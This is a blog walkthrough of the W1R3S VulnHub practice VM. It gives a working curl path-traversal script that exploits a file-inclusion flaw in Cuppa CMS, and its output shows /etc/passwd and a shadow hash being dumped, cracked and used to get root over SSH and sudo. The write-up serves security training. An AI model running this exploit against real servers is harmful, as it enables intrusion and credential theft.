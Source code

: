 ```yaml
---
layout: post
title: "Ghost in the Wires"
category: Walkthrough
tags: [VulnHub, W1R3S]
comments: true
---
```


This post documents the complete walkthrough of W1R3S: 1.0.1, a boot2root [VM][1] created by SpecterWires and hosted at [VulnHub][2]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

You have been hired to do a penetration test on the W1R3S.inc individual server and report all findings. They have asked you to gain `root` access and find the flag (located in `/root` directory).

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host:

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.100.130
...
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:21 content
| drwxr-xr-x    2 ftp      ftp          4096 Jan 23 11:25 docs
|_drwxr-xr-x    2 ftp      ftp          4096 Jan 28 16:53 new-employees
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 07:e3:5a:5c:c8:18:65:b0:5f:6e:f7:75:c7:7e:11:e0 (RSA)
|_  256 03:ab:9a:ed:0c:9b:32:26:44:13:ad:b0:b0:96:c3:1e (ECDSA)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
```

As usual, let's go with directory/file enumeration on the web service and see what we get.

### Directory/File Enumeration

I've always like to use `gobuster` with one of the big directory wordlists.

```
Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.100.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://192.168.100.130/administrator (Status: 301)
http://192.168.100.130/javascript (Status: 301)
http://192.168.100.130/wordpress (Status: 301)
=====================================================
```

OK. We have two interesting directories: `administrator` and `wordpress`.

### Cuppa CMS

Turned out the `administrator` directory is the installation setup for Cuppa CMS. This is how it looked like when you point the browser to `/administrator`.

![screenshot-1](/assets/images/posts/w1r3s-walkthrough/screenshot-1.png)

According to the official [documentation](https://www.cuppacms.com/en/docs/installation){:target="_blank"}, in order for the installation to be completed, the database have to be created first.

>On step 2, configure the database and user administrator setting and click in next. Remember, the database should be created before to install Cuppa CMS.

The Cuppa CMS installation was never completed in the first place or I'll not be seeing the setup page. Suffice to say, I downloaded a [copy](http://cuppacms.com/files/cuppa_cms.zip){:target="_blank"} of the Cuppa CMS code to see if I can discover any vulnerabilities.

It was certainly a pleasant surprise when I found one. I'm not sure if this is a new vulnerability but there is a LFI vulnerability with `alertConfigField.php` at line 77.

![screenshot-2](/assets/images/posts/w1r3s-walkthrough/screenshot-2.png)

To test it, I wrote `cat.sh`, an extremely simple script that will display any file as long as there is permission to do so.

{% highlight bash linenos %}
#!/bin/bash

_HOST=192.168.100.130
_PATH=administrator/alerts/alertConfigField.php
_PARM=urlConfig
_TRAV=../../../../../../../..

curl -s --data-urlencode "${_PARM}=${_TRAV}$1" $_HOST/$_PATH \
| sed -r 's/^ {8}//' \
| sed '71,$!d' \
| sed '$d' \
| sed '$d'
{% endhighlight %}

Let's give it a shot and see what we get.

```
# ./cat.sh /etc/passwd
...
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false
```
Imagine my surprise when I requested for `/etc/shadow` and it showed up in the output.

```
# ./cat.sh /etc/shadow
...
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```

I'm not quite sure if `/etc/shadow` was intentionally made world-readable which should not be the case.

### John the Ripper

Well, what's done is done. With both `passwd` and `shadow` made available, I can simply `unshadow` them and send them to JtR for offline cracking with a password list like "rockyou".

The cracking was completed in seconds.

```
# john --format=crypt --show hashes.txt 
w1r3s:computer:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
```

With the password of `w1r3s` made available, I can simple login to the box via SSH.

![screenshot-3](/assets/images/posts/w1r3s-walkthrough/screenshot-3.png)

### Privilege Escalation

It wasn't long before I saw that `w1r3s` is on the `sudoers` list.

![screenshot-4](/assets/images/posts/w1r3s-walkthrough/screenshot-4.png)

Becoming root is just one command away.

![screenshot-5](/assets/images/posts/w1r3s-walkthrough/screenshot-5.png)

:dancer:

### Afterthought

Frankly, I didn't even bother with WordPress. :stuck_out_tongue_winking_eye:

[1]: https://www.vulnhub.com/entry/w1r3s-101,220/
[2]: https://www.vulnhub.com

*[LFI]: Local File Inclusion
